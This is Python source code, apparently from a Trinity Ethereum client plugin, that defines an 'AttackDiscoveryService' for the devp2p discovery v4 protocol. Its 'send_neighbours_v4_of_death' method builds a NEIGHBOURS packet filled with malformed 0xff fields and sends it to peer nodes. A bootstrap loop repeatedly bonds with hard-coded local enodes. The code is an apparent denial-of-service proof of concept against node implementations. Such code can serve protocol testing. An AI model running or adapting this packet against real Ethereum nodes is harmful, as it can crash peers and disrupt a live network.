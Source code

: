 ```python
    def is_enabled(self) -> bool:
        return True

    async def do_run(self, event_bus: EndpointAPI) -> None:
        boot_info = self._boot_info
        config = boot_info.trinity_config
        config.port = 30888
        vm_config = config.get_app_config(Eth1AppConfig).get_chain_config().vm_configuration
        socket = trio.socket.socket(family=trio.socket.AF_INET, type=trio.socket.SOCK_DGRAM)
        await socket.bind(("0.0.0.0", config.port))
        base_db = MemoryDB()
        node_db = NodeDB(default_identity_scheme_registry, base_db)
        discovery_service = AttackDiscoveryService(
            config.nodekey,
            config.port,
            config.port,
            [enodeToMultiAddr("enode://a461d3765756c19eb42375c2f51a06b785dbb6197fe4f05484cd976112fa723ed6d876b8fc66a6ac5b654e38944244b13eb07ab441de708016647aee63c48c87@127.0.0.1:9000"), enodeToMultiAddr("enode://ffea312f26a0269408b9a636ba05f4322beaf41323539494e5a3d2fa9fd18cc33ba0b8588e4c4ec9ce10358c4d9f9ad06e133ff09c1f4808eec0860f486f0b27@0.0.0.0:30309")], #config.bootstrap_nodes,
            config.preferred_nodes,
            event_bus,
            socket,
            node_db
        )
        await async_service.run_trio_service(discovery_service)

class AttackDiscoveryService(PreferredNodeDiscoveryService):

    def _get_handler(self, cmd: DiscoveryCommand) -> V4_HANDLER_TYPE:
        print(cmd)
        return super()._get_handler(cmd)

    def send_neighbours_v4_of_death(self, node: NodeAPI,  neighbours: Tuple[NodeAPI, ...]=[]) -> None:
        
        nodes = [(b'\xff'*32, b'\xff', b'\xff', b'\xff')]
        payload = NeighboursPacket(
            neighbours=nodes,
            expiration=_get_msg_expiration())
        self.send(node, CMD_NEIGHBOURS, payload)


    async def bootstrap(self) -> None:
        while True:
            bonding_queries = []
            for node in self.bootstrap_nodes:
                uri = node.uri()
                pubkey, _, uri_tail = uri.partition('@')
                pubkey_head = pubkey[:16]
                pubkey_tail = pubkey[-8:]
                self.logger.debug("full-bootnode: %s", uri)
                self.logger.debug("bootnode: %s...%s@%s", pubkey_head, pubkey_tail, uri_tail)
                self.invalidate_bond(node.id)

                bonding_queries.append((self.bond, node.id))

            bonded = await trio_utils.gather(*bonding_queries)
            successful_bonds = len([item for item in bonded if item is True])
            if not successful_bonds:
                self.logger.warning("Failed to bond with any bootstrap nodes %s", self.bootstrap_nodes)
                continue
```